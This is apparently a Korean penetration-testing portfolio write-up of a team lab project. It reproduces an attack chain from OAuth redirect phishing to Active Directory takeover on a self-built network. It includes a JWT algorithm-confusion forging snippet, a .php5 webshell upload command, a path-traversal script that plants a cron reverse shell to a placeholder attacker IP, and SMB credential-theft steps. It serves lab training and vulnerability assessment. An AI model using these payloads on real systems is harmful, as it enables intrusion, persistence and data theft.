# 🖧 OAuth 인증 우회 기반 내부망 침투·탐지·대응 체계 구축

> **모의해킹 / 취약점 진단 프로젝트** — 외부 웹 침투부터 AD 도메인 전체 장악까지 전체 공격 체인(Kill Chain) 재현 및 진단

[](../../README.md)


> 🧪 **실습 환경 안내:** 본 문서의 모든 계정·비밀번호·토큰은 격리된 랩 환경을 위해 **임의로 생성한 값**이며, 실제 운영 정보가 아닙니다.

---

## 📌 프로젝트 개요

| 항목 | 내용 |
|------|------|
| **프로젝트명** | OAuth 인증 우회 기반 내부망 탐지·대응 체계 구축 |
| **팀 구성** | 홍박사연구실 (7인) |
| **수행 기간** | 2026.05.07 ~ 2026.05.28 |
| **목표** | 초기 침투 → 내부 확산 → 도메인 장악까지의 **공격 전 과정을 재현**하고, 각 단계의 취약점을 진단·대응 방안까지 도출 |

실제 기업 환경과 유사한 **3-tier 네트워크(DMZ / Internal / Client)** 를 직접 구축하고,  
외부 공격자 관점에서 **OAuth 인증 우회 → 웹 서버 장악 → SMB 내부망 횡적 이동 → AD 도메인 전체 장악**으로 이어지는  
전체 공격 체인을 설계·실습한 뒤, 발견된 취약점에 대한 위험도 평가와 대응 방안을 제시한 프로젝트입니다.

> 💡 **한 줄 정의:** *"작은 설정 실수 하나(평문 저장된 계정)가 어떻게 도메인 전체 장악으로 연결되는가"* 를 공격·방어 양측 관점에서 증명한 프로젝트입니다.  

### 🎯 핵심 성과 (Key Findings)

| 성과 | 내용 |
|------|------|
| 🔗 **공격 체인 실증** | 평문 저장 계정 **1건**이 **AD 도메인 전체 장악**까지 연결되는 실제 공격 경로를 재현·증명 |
| 🔍 **취약점 진단** | Critical 3건 포함 **총 8건**의 취약점을 위험도 평가와 함께 도출 |
| 🛡️ **대응 방안 도출** | LAPS·Vault·ACL·MFA 등 취약점별 실무 대응책을 진단서 형태로 권고 |
| 🏗️ **공수(攻守) 양면 이해** | 공격 대상(AD 내부망)을 **직접 구축한 뒤 공격** → 방어자·공격자 관점을 동시 확보 |

---

## 🙋 본인 담당 역할 (김준혁)

> **[AD 환경 기반 SMB 공격 시나리오 구성 및 내부망 구축]** — 공격 대상 인프라 구축 + 내부망 침투 실행을 모두 담당

| 구분 | 담당 내용 |
|------|-----------|
| 🏗️ **인프라 구축** | Windows Server 2022 기반 AD 도메인·SMB 파일서버 구축, 직무별 공유 폴더(IT/HR/Dev) 권한 설계, 도메인 조인 Client 환경 구성 |
| 🌐 **침투 발판 설계** | Rocky Linux 기반 Pivot(Bastion) 서버 구축, 외부→내부 라우팅/터널링 설정 |
| 🔍 **정찰·진단** | Nmap 내부 SMB 서버 식별, SMBMap 공유자원 권한 정밀 진단(ACL Check) |
| 💥 **침투 실행** | 평문 계정 탈취 → 권한 상승 → Evil-WinRM 원격 접속 → 도메인 횡적 이동 |

> ⚠️ 아래 **초기 침투(Phase 1)** 는 팀 협업 파트입니다. 웹 취약점 구현/실행은 팀원(박성진)이,  
> **초기 침투 접점(Attack Surface) 및 Pivot 환경 설계는 본인이 담당**했으며,  
> 본 문서에서는 전체 공격 흐름의 맥락 제공을 위해 요약합니다. **Phase 2(내부망 침투)가 본인의 핵심 실행 파트**입니다.

---

## 🚨 발견 취약점 요약 (Severity Dashboard)

> 진단 관점에서 발견된 취약점을 위험도순으로 정리했습니다.  

| # | 취약점 | 위험도 | 영향 | 담당 Phase |
|:-:|--------|:------:|------|:----------:|
| 1 | JWT 알고리즘 혼동 (RS256 → HS256) | 🔴 **Critical** | 관리자 토큰 위조 → 인증 완전 우회 | Phase 1 |
| 2 | 파일 업로드 제한 미흡 (.php5 우회 웹셸) | 🔴 **Critical** | 원격 코드 실행(RCE) → 웹서버 장악 | Phase 1 |
| 3 | 민감정보 평문 저장 (계정/비밀번호) | 🔴 **Critical** | 내부망 계정 전면 노출 → 도메인 장악 | Phase 2 |
| 4 | OAuth 리다이렉트 URL 검증 미흡 | 🟠 **High** | 피싱을 통한 사용자 토큰 탈취 | Phase 1 |
| 5 | Path Traversal → 크론잡 백도어 | 🟠 **High** | root 권한 지속성(Persistence) 확보 | Phase 1 |
| 6 | SMB 공유 폴더 과도한 접근 권한 | 🟠 **High** | 일반 계정으로 관리자 정보 열람 | Phase 2 |
| 7 | 관리자 계정 재사용 (Credential Reuse) | 🟠 **High** | 계정 1개로 전체 시스템 접근 | Phase 2 |
| 8 | WinRM 과도한 방화벽 허용 | 🟡 **Medium** | Bastion 장악 시 내부망 전체 원격 접속 | Phase 2 |

```
위험도 분포:  🔴 Critical ███  3건    🟠 High ████  4건    🟡 Medium █  1건
```

---

## 🏗️ 인프라 구성

```
인터넷 (단일 공인 IP)
        │
        ▼
OPNsense (경계 방화벽 / NAT / 포트포워딩 80,443) — 192.168.10.108
        │
        ▼
┌────────────────────────────────────────────────────────────────┐
│  DMZ (192.168.11.0/24)                                           │
│  - Apache Web / Flask WAS  192.168.11.12   웹서버, Reverse Proxy  │
│  - OAuth(Keycloak)         192.168.11.15   JWT, OAuth2           │
│  - Bastion (Pivot)         192.168.11.55   내부망 정찰 거점       │
└────────────────────────────────────────────────────────────────┘
        │
        ▼
┌──────────────────────────────────────────────────────────────┐
│  Internal (192.168.12.0/24)                                   │
│  - Windows Server 2022  192.168.12.10  AD DS · DNS · DC       │
│  - FreeIPA              192.168.12.20  LDAP · Kerberos · SSO  │
│  - MySQL DB             192.168.12.44  DB (3306)              │
│  - ELK Stack (SIEM)     192.168.12.129 Elasticsearch · Kibana │
└──────────────────────────────────────────────────────────────┘
        │
        ▼
┌──────────────────────────────────────────────────────────────┐
│  Client (192.168.13.0/24)                                    │
│  - Windows Client       192.168.13.10  도메인 조인 사용자 PC   │
└──────────────────────────────────────────────────────────────┘
```

| 구분 | 사용 기술 |
|------|-----------|
| **환경** | Proxmox VE, Rocky Linux 8.10, OPNsense, Windows Server 2022(AD), FreeIPA, Docker |
| **인증** | Keycloak(OAuth2/JWT), Kerberos, LDAP, SSO |
| **SIEM** | ELK Stack (Elasticsearch, Logstash, Kibana), Rsyslog |
| **공격 도구** | Nmap 7.92, smbmap 1.10.8, smbclient, Evil-WinRM 3.9 |

---

## 🎯 전체 공격 체인 (Attack Path)

```
[Phase 1] 초기 침투 — 외부 → 웹서버 root   (팀 협업 · 본인: 공격표면/Pivot 설계)
   피싱 → OAuth 토큰 탈취 → 관리자 로그인
   → JWT 위조(Algorithm Confusion) → 웹셸 업로드(.php5 우회)
   → 리버스쉘 → Path Traversal 크론 백도어 → 웹서버 root 장악
                              │
                              ▼  (웹서버에서 SMB 계정 발견 → 내부망 진입점)
[Phase 2] 내부망 침투 — 웹서버 → AD 도메인 장악   ◀── 🙋 본인 핵심 담당
   Pivot 경유 → Nmap 445 확인 → SMBMap 공유 열거
   → 평문 관리자 계정 탈취 → Evil-WinRM 접속
   → 도메인 계정 확인 → Client 횡적 이동 → 내부 시스템 전체 장악
```

---

# 🔓 Phase 1 — 초기 침투 (팀 협업 / 요약)

> 본인 담당 파트(Phase 2)의 **전제 조건**을 설명하기 위한 요약입니다.  
> 웹 취약점 구현·실행은 팀원(박성진) 담당, 초기 침투 접점 및 Pivot 설계는 본인 담당입니다.

### 1. OAuth 리다이렉트 검증 미흡 → 피싱으로 토큰 탈취 
> 🟠 **위험도: High**

- `redirect_uri`(next 파라미터) 검증이 미흡하여, 정상 로그인처럼 보이는 피싱 링크로 사용자를 유도해 인증 토큰을 공격자 서버로 탈취했습니다.

```
악성 링크: http://192.168.11.12/api/auth/keycloak/login?next=http://<공격자IP>:8888
```

**▸ 피싱 메일 발송**



> 📷 "[개인정보 유출 감지] 비밀번호를 변경하세요" 위장 메일로 사용자를 악성 링크로 유도.

**▸ 정상처럼 보이는 로그인 페이지**



> 📷 실제 Keycloak(PENTEST-REALM) 로그인 페이지 — 사용자는 진짜 로그인으로 착각하고 인증 진행.

---

**▸ 인증 토큰 탈취**



> 📷 피싱 서버(`phishing.py`)가 리다이렉트로 흘러나온 `access_token`(JWT)을 가로채 **관리자 토큰 탈취**.

---

**▸ 훔친 토큰을 브라우저에 주입**



> 📷 개발자도구 콘솔에서 `localStorage.setItem`으로 훔친 토큰을 강제 주입 후  
> 새로고침 → 서버에 **"나 admin이야"라고 위장**. (탈취한 출입증을 실제 문에 꽂는 동작)

---

**▸ admin 대시보드 접근 성공**



> 📷 Secure Vault에 **admin 권한으로 로그인 성공**("안녕하세요, admin님") → 토큰 탈취가 실제 계정 탈취로 이어짐.

---

### 2. JWT 알고리즘 혼동(Algorithm Confusion) → 토큰 위조 
> **🔴 위험도 : Critical**

- Keycloak의 RS256(비대칭키) 환경에서 서버가 `alg` 필드를 검증하지 않는 점을 악용,  
  **공개키를 HS256 대칭키 시크릿으로 재사용**하여 admin 권한 토큰을 위조했습니다. 

```python
# forge.py 핵심 — 공개키(PEM)를 HS256 시크릿으로 사용
forged_token = jwt.encode(
    {"preferred_username": "admin", "realm_access": {"roles": ["admin"]}},
    pem,                 # RSA 공개키를 대칭키로 혼동시킴
    algorithm="HS256"
)
```

**▸ 위조 토큰 생성**



> 📷 `forge.py`가 공개된 RSA 공개키를 HS256 시크릿으로 재사용해 **admin 권한 위조 토큰**을 생성.   
> 💡 **한 줄 정의:** 서버가 "이 토큰 어떤 방식으로 서명됐어?"를 공격자 말만 믿는 게 문제 — 공개된 열쇠로 위조 도장을 찍은 격입니다.

---

### 3. 파일 업로드 제한 미흡 → 웹셸 RCE 
> **🔴 위험도 : Critical**

- 위조 토큰으로 공지사항 첨부 기능에 접근, 블랙리스트에 없는 `.php5` 확장자로 **웹셸 업로드 → 원격 코드 실행**에 성공했습니다.

```bash
# .php5 확장자로 블랙리스트 우회하여 웹셸 업로드
curl -X POST "http://192.168.11.12/api/notices" -H "Authorization: Bearer <위조토큰>" \
  -F "file=@shell.php5"
# 웹셸 동작 확인 → uid=48(apache)
curl "http://192.168.11.12/uploads/shell.php5" --data-urlencode "cmd=id"
```

**▸ 웹셸 업로드 (.php5 블랙리스트 우회)**



> 📷 위조 토큰으로 공지 첨부 API에 `shell.php5` 업로드 → 확장자 블랙리스트를 우회.

---

**▸ 웹셸 RCE 확인**



> 📷 `shell.php5?cmd=id` → `uid=48(apache)` 반환. 서버가 실제로 명령을 실행 = **원격 코드 실행(RCE) 성공**.

---

### 4. Path Traversal → 크론 백도어 → 웹서버 root 장악 
> 🟠 **위험도: High**

- Path Traversal로 `/etc/cron.d/`에 백도어 크론잡을 심어 **root 권한 리버스쉘**을 획득, 웹서버를 완전 장악했습니다.

```bash
# path_traversal.py — 경로 탈출로 크론 백도어 삽입
cron_content = b'* * * * * root /bin/bash -c "bash -i >& /dev/tcp/<공격자IP>/6666 0>&1"\n'
files = {
    "file": ("../../../etc/cron.d/backdoor", cron_content, "text/plain")
}
resp = requests.post("http://192.168.11.12/api/notices",
    headers={"Authorization": f"Bearer <위조토큰>"}, files=files)
```

**▸ Path Traversal로 크론 백도어 삽입**



> 📷 `path_traversal.py`로 경로를 벗어나 `/etc/cron.d/backdoor`에 백도어 크론잡 삽입 → **지속성(Persistence) 확보**.

---

**▸ root 리버스쉘 획득**

```bash
# 리스너 대기 → 1분 후 크론이 실행되며 root 쉘 연결
ncat -lnvp 6666
```



> 📷 ncat 리스너에 웹서버(192.168.11.12)에서 역접속 → `whoami` = **root** → 웹서버 완전 장악.  
> ✅ **Phase 1 결과: 웹서버(192.168.11.12) root 권한 획득** — 여기서부터 본인 담당 Phase 2가 시작됩니다.

---

## 🙋 Phase 2 — 내부망 침투 (본인 핵심 담당)

> 담당: SMB 프로토콜 기반 내부망 정찰 → 자격증명 탈취 → 권한 상승 → 도메인 횡적 이동

### 💥 흐름 한 줄 요약

- **웹 서버에 남겨진 스크립트 파일 하나가 AD 도메인 전체 장악으로 이어졌습니다**

```
웹서버(root) → setup.sh에서 로컬 계정 발견
   → Bastion SSH 피벗 → Nmap 445 확인 → SMBMap 공유 열거
   → server_info.txt에서 관리자 계정 탈취 → SMBMap "ADMIN!!!" 확인
   → Evil-WinRM 접속 → 도메인 계정 확인
   → Client 횡적 이동 → domainuser 세션 확인 → 내부 자료 열람 (도메인 장악)
```

---

### 1️⃣ 웹서버에서 Windows 로컬 계정 정보 수집

> 🎯 **진단 의도:** 침해된 웹서버에 내부망으로 연결되는 자격증명이 방치돼 있는지 점검한다.

- Phase 1에서 확보한 웹서버 root 권한으로 홈 디렉터리를 탐색한 결과, SMB 마운트용 스크립트에 **로컬 계정이 평문으로 저장**된 것을 발견했습니다.
- 관리 편의를 위한 스크립트 하나가 내부망 진입의 첫 단서가 됐습니다.

**▸ 웹서버 파일 목록 확인**



> 📷 root 권한으로 홈 디렉터리를 확인 → `setup.sh`, `deploy.ps1` 등 관리 스크립트 발견.

**▸ setup.sh 내용 분석 — 평문 계정 발견 🔴**



> 📷 `cat setup.sh` → Windows 서버 SMB 마운트 명령에 `localuser / Qwer@1234`가 **평문으로 저장**됨.

---

### 2️⃣ Bastion(Pivot) 서버로 SSH 피벗

> 🎯 **진단 의도:** DMZ에서 내부망으로 넘어가는 경로가 실제로 뚫리는지, 피벗이 가능한지 검증한다.

- 웹서버에서 곧바로 내부망 스캔이 불가능한 구조였기에,  
  DMZ·Internal 양쪽에 접근 가능한 Bastion을 정찰 거점으로 확보했습니다.

**▸ Bastion SSH 접속**



> 📷 웹서버(192.168.11.12)에서 Bastion(192.168.11.55)으로 SSH 피벗 성공 → 내부망 정찰 거점 확보.

---

### 3️⃣ Nmap으로 445 포트 확인

> 🎯 **진단 의도:** 내부 Windows 서버의 노출 서비스를 전수 조사해 공격 진입점을 특정한다.

**▸ Windows Server 포트 스캔**



> 📷 `nmap 192.168.12.10` → 80·443은 닫혀 있고 **445(SMB)만 open**. SMB가 사실상 유일한 공격면임을 진단.

---

### 4️⃣ SMBMap으로 공유 폴더 권한 열거 (ACL 진단)

> 🎯 **진단 의도:** 일반 계정 권한으로 어디까지 접근 가능한지 공유 자원의 ACL(접근 제어)을 정밀 진단한다.

**▸ 공유 자원 권한 열거 (localuser)**



> 📷 `smbmap -u localuser` → `ADMIN$/C$`는 NO ACCESS지만, `Company·NETLOGON·SYSVOL`이 **READ ONLY**로 노출.

**▸ Company 하위 구조 재귀 탐색**



> 📷 `-r Company` → **Dev·HR·IT** 3개 부서 폴더 확인. 일반 계정인데도 부서 폴더가 전부 열람 가능한 **과도한 권한** 노출.

---

### 5️⃣ smbclient로 부서 폴더 탐색 & 민감 파일 탈취

> 🎯 **진단 의도:** READ 권한이 열린 공유 폴더에 민감 정보가 방치돼 있는지, 데이터 유출(Exfiltration) 가능성을 검증한다.

**▸ smbclient 대화형 접속**



> 📷 `smbclient //192.168.12.10/Company` → localuser 계정으로 대화형 셸 접속 성공.

---

#### 폴더 확인

**▸ 부서 폴더 확인**



> 📷 `ls` → Dev / HR / IT 3개 부서 폴더 구조 확인.


**▸ Dev 폴더 — 환경변수 파일 유출**



> 📷 `cd Dev` → `.env`(개발 환경변수) 파일 발견.

**▸ HR 폴더 — 직원 계정 목록 유출**



> 📷 `cd HR` → `employee_accounts.csv`(직원 계정 목록) 발견.

**▸ IT 폴더 — 서버 관리자 정보 파일 발견**



> 📷 `cd IT` → `config.ini`, `server_info.txt`(서버 관리자 정보) 발견.

---

#### 관리자 계정 정보 파일 탈취 및 확인

**▸ server_info.txt 다운로드**



> 📷 `get server_info.txt` → 관리자 정보 파일을 Bastion 로컬로 다운로드.

**▸ 다운로드 확인**



> 📷 Bastion 로컬에 `server_info.txt`, `employee_accounts.csv` 등 탈취 파일 확보.

---

### 관리자 계정 평문 노출 확인 
> **🔴 위험도 : Critical**

